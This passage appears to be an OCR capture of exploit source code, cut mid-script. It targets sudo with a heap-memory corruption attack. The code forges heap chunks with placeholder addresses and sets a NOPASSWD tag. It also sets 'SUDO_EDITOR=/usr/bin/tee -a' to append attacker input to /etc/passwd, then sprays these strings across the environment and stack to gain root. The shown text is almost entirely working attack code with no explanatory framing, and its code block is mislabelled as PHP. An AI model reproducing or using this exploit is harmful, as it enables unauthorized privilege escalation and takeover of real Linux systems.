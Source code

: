 ```php
    'A'*0xc+ # padding

    # cmndspec chunk
    '\x61'*0x8 + # chunk metadata (need only prev_inuse flag)
    'A'*0x8 + # entries.tqe_next
    ADDR_CMND_PREV[:6], '',  # entries.teq_prev
    '', '', '', '', '', '', '', '',  # runasuserlist
    '', '', '', '', '', '', '', '',  # runasgrouplist
    ADDR_MEMBER[:6], '',  # cmnd
    '\xf9'+'\xff'*0x17+ # tag (NOPASSWD), timeout, notbefore, notafter
    '', '', '', '', '', '', '', '',  # role
    '', '', '', '', '', '', '', '',  # type
    'A'*8 + # padding

    # privileges chunk
    '\x51'*0x8 + # chunk metadata
    'A'*0x8 + # entries.tqe_next
    ADDR_PRIV_PREV[:6], '',  # entries.teq_prev
    'A'*8 + # ldap_role
    'A'*8 + # hostlist.tqh_first
    ADDR_MEMBER[:6], '',  # hostlist.teq_last
    'A'*8 +  # cmndlist.tqh_first
    ADDR_CMND[:6], '',  # cmndlist.teq_last
]

cnt = sum(map(len, epage))
padlen = 4096 - cnt - len(epage)
epage.append('P'*(padlen-1))

env = [
    "A"*(7+0x4010 + 0x110) + # overwrite until first defaults
    "\x21\\", "\\", "\\", "\\", "\\", "\\", "\\", 
    "A"*0x18 + 
    # defaults
    "\x41\\", "\\", "\\", "\\", "\\", "\\", "\\", # chunk size
    "\\", "\\", "\\", "\\", "\\", "\\", "\\", "\\", # next
    'a'*8 + # prev
    ADDR_DEF_VAR[:6]+'\\', '\\', # var
    "\\", "\\", "\\", "\\", "\\", "\\", "\\", "\\", # val
    ADDR_DEF_BINDING[:6]+'\\', '\\', # binding
    ADDR_REFSTR[:6]+'\\', '\\',  # file
    "Z"*0x8 +  # type, op, error, lineno
    "\x31\\", "\\", "\\", "\\", "\\", "\\", "\\", # chunk size (just need valid)
    'C'*0x638+  # need prev_inuse and overwrite until userspec
    'B'*0x1b0+
    # userspec chunk
    # this chunk is not used because list is traversed with curr->prev->prev->next
    "\x61\\", "\\", "\\", "\\", "\\", "\\", "\\", # chunk size
    ADDR_USER[:6]+'\\', '\\', # entries.tqe_next points to fake userspec in stack
    "A"*8 + # entries.tqe_prev
    "\\", "\\", "\\", "\\", "\\", "\\", "\\", "\\",  # users.tqh_first
    ADDR_MEMBER[:6]+'\\', '\\', # users.tqh_last
    "\\", "\\", "\\", "\\", "\\", "\\", "\\", "",  # privileges.tqh_first

    "LC_ALL=C",
    "SUDO_EDITOR=/usr/bin/tee -a", # append stdin to /etc/passwd
    "TZ=:",
]

ENV_STACK_SIZE_MB = 4
for i in range(ENV_STACK_SIZE_MB * 1024 / 4):
    env.extend(epage)

```